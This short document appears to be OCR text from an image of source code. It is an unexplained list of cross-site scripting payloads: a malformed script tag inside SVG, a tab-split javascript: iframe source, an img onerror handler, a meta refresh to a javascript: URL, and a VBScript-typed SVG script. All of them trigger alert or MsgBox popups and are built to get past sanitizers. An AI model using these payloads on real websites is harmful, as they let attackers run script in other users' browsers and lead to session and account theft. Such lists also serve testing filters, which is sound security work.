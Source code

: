 &lt;svg&gt;&lt;script ?&gt;alert(1)

&lt;iframe src=j&Tab;a&Tab;v&Tab;a&Tab;s&Tab;c&Tab;r&Tab;i&Tab;p&Tab;t&Tab;:a&Tab;l&Tab;e&Tab;r&Tab;t&Tab;%28&Tab;1&Tab;%29&gt;&lt;/iframe&gt;

&lt;img src=`xx:xx`onerror=alert(1)&gt;

&lt;meta http-equiv="refresh" content="0;javascript&colon;alert(1)"/&gt;

&lt;svg contentScriptType=text/vbs&gt;&lt;script&gt;MsgBox+1

